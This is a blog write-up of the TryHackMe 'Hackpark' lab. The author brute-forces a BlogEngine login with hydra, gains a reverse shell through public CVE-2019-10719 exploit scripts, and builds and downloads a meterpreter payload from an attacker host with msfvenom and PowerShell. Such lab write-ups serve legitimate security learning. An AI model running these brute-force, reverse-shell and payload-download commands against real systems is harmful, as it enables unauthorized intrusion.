





Back Again: THM Hackpark
Table of Contents
After taking a short break from CTFs, trying to keep my tryhackme active streak … active and losing quite a lot of time to finding and fixing stuff (unfortunately not only in software), it is time for yet another CTF. If I am not mistaken this is listed as an easy one, so let’s dive right in.
After using the good ol trick of modifying /etc/hosts and .bashrc for
easier handling of the remote machine’s address:
Recon
Our initial port scan only shows 2 open ports:
[ ]80: a web server[ ]3389: Microsoft SChannel TLS (which the most prominent google results suggest may be an RDP entry point)
nmap -sV -sC -oN nmap.initial $IP
After checking on the results that the full nmap scan returned (while the bruteforce performed ahead was running), another open port was revealed:
[ ]5985: wsman
Visiting the WebServer
The website is powered by BlogEngine, with numerous exploits readily
available for certain versions of it in exploitdb.
robots.txt has some nice directories:
User-agent: * Disallow: /Account/*.* Disallow: /search Disallow: /search.aspx Disallow: /error404.aspx Disallow: /archive Disallow: /archive.aspx
We have a contact form, so a XSS vulnerability could (maybe) be used

Figure 1: Contact form
We also have a log in form:

Figure 2: Log in form
The room’s author (after dealing with the first “flag”), suggests bruteforcing, so even though it is not my first option, this is what I am looking at.
Bruteforcing the website log in
After redirecting my web traffic to burp, so that I can better see how my post requests are structured, it becomes apparrent that there is a set of parameters (other than just username and password) I need to set:
__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
Adding to these the knowledge that the login post request had this
path /Account/login.aspx and failed login attempts had Login failed:,
I structured the following hydra command:
hydra -l admin -P /usr/share/wordlists/rockyou.txt hackpark.thm http-post-form "/Account/login.aspx:__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
After waiting for some time, it gave us the password.
Exploiting BlogEngine
Seeing that BlogEngine had some exploits available, I immediately
searched for the currently running version, (available in the about
pane).

Figure 3: Blog Engine Version
Heading back to searchsploit, we see that there are two readily
available python scripts for us to use (much better than the manual
alternative :P ):
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Direct | aspx/webapps/47010.py BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' D | aspx/webapps/47011.py
Now, after checking with (-x), we see that both of them are by the same author and essentially have a similar behavior. I decided to go with the first one.
Exploit for CVE-2019-10719 CVE Identified by: Aaron Bishop Exploit written by: Aaron Bishop Upload and trigger a reverse shell python exploit.py -t 192.168.10.9 -l 192.168.10.10:1337 Open a listener to capture the reverse shell - Metasploit or netcat nc -nlvp 1337
This, taken from the exploit file (obviously), served as the basis for the following command
searchsploit -m 47010 # this might be just the most beautiful option in searchsploit, which I had *totally* missed for quite a long time python 47010.py -t hackpark.thm -l 10.10.93.209:6969 -u admin -p 1qaz2wsx
This, strangely did not work, so before tinkering around any longer, I ran the same command with 47011 (which required me to comment out just one line in the python script as well). At this point, 47011 gave us a nice reverse shell.

Figure 4: Initial Foothold
Seeing the privileges granted to our user, even the privilege escalation path is already known, so after uploading winpeas or getting a meterpreter shell, there is no need for manual priv esc.
PrivEsc
This section could be called “getting the flags”, because I do not believe that I would go
Meterpreter
First things first, generating and uploading the payload to the target host:
root@ip-10-10-93-209:~# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.93.209 LPORT=6970 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x64 from the payload No encoder specified, outputting raw payload Payload size: 510 bytes Final size of exe file: 7168 bytes Saved as: shell.exe root@ip-10-10-93-209:~# python3 -m http.server Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
Now, getting the file to the target system was way harder than it needed to be. Initially, I thought that it would be just a bit more difficult than it is on Linux. No matter what I tried, however, I could not see that long awaited line in my python server, showing that the file had been requested…
Sometime, I managed to get it to do the request, but a ’Bad Request Syntax’ prevented me from getting too excited - if you find yourself in that position make sure that you are smarter than me: pressing https instead of http by habit.
powershell -c "Invoke-WebRequest -Uri 'http://10.10.93.209:8000/shell.exe' -OutFile 'c:\Windows\Temp\shell.exe'"

Figure 5: Meterpreter
(After completing this section I realized I did not include how the
handler was set up, but it is trivial, just use the
exploit/multi/handle - shown above - and complete the options)
After completing the tedious flags, just a simple cat gives us the
flag on jeff’s and Administrator’s desktops respectively.
Winpeas is not necessary since we have a full-fledged meterpreter session. Maybe next time.
Conclusion
I will focus on getting some more experience with windows, at least on a theoretical level, and populating my notes better, because I think it is quite sad to see how much more difficult exploiting windows feels.